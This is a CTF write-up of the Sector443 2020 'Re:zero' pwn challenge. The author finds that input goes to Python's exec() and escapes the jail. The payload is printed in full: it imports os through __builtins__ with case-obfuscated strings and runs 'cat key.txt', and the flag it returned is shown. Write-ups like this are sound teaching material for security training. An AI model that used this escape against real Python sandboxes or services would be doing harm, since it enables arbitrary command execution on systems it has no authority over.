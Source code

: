 # Sector443 CTF 2020: Pwn - Re:zero (150 Points)

## Description:

_I forgot to take a screenshot of the description... woops! xD_ 


Anyways, I remember that the description only provided the name of the file `key.txt` that had the flag, it didn't provide any sort of hint so... Moving on!

## Recon and Analysis:

Connecting to the server given in the descript, which was `172.105.53.6 32780` we get the following, cool response. 

```
kali@kali:~/Documents/sector443/re:zero$ nc 172.105.53.6 32780
__        __   _                            _        
\ \      / /__| | ___ ___  _ __ ___   ___  | |_ ___  
 \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \ 
  \ V  V /  __/ | (_| (_) | | | | | |  __/ | || (_) |
   \_/\_/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/ 
                                                     
 ____                   _                                   __ 
/ ___|  __ _ _ __   ___| |_ _   _  __ _ _ __ _   _    ___  / _|
\___ \ / _` | '_ \ / __| __| | | |/ _` | '__| | | |  / _ \| |_ 
 ___) | (_| | | | | (__| |_| |_| | (_| | |  | |_| | | (_) |  _|
|____/ \__,_|_| |_|\___|\__|\__,_|\__,_|_|   \__, |  \___/|_|  
                                             |___/             
 _  __                         _     _       _ _ 
| |/ /_ __ ___ _ __ ___   __ _| | __| |_   _| | |
| ' /| '__/ _ \ '_ ` _ \ / _` | |/ _` | | | | | |
| . \| | |  __/ | | | | | (_| | | (_| | |_| |_|_|
|_|\_\_|  \___|_| |_| |_|\__,_|_|\__,_|\__, (_|_)
                                       |___/     

Try breaking my barrier. You'll find a key to save Emilia inside Roswaal's mansion
>>>
```

Trying out random stuff like `!@#$!%^@"` just to get it to crash, when it crashes it spills out an error that contains the directory and the script name which was `main.py`.


Also, `exec(string)` was in the error from the python script. So I tried to read the content of `key.txt` by supplying `'cat key.txt'` (notice the quotes to supply `exec()` a `string`) but the program terminates without giving me anything.


Next thing to do is search on how to escape this statement, to execute arbitrary code on the machine _Muhahaha!_


## Solution

After one google search on "how to escape python jails" lead me to [this](https://anee.me/escaping-python-jails-849c65cf306e?gi=6a471ceaec7e) article.

Reading it carefully, I tried applying the same technique as the article using `__builtins__` module, and the final payload worked:

```
Try breaking my barrier. You'll find a key to save Emilia inside Roswaal's mansion
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat key.txt')

S443{y0u_l1k3_@n1m3_r1gh7}
```
